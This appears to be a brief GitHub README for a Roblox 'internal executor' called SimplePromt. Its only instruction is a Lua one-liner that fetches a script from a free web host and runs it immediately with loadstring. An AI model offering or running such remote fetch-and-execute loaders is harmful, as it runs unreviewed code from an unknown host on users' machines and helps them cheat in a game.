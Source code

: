 # SimplePromt


Its a simple internal executor ( script based ) its as powerfull as your executor that u are using.

![SimplePrompNew](https://user-images.githubusercontent.com/107261837/230639279-94d8c986-5046-45a4-a3ec-2e4dd25cbff5.png)

```lua
loadstring(game:HttpGet("https://powerwareoff.000webhostapp.com/SP.Outcome.lua"))()
```
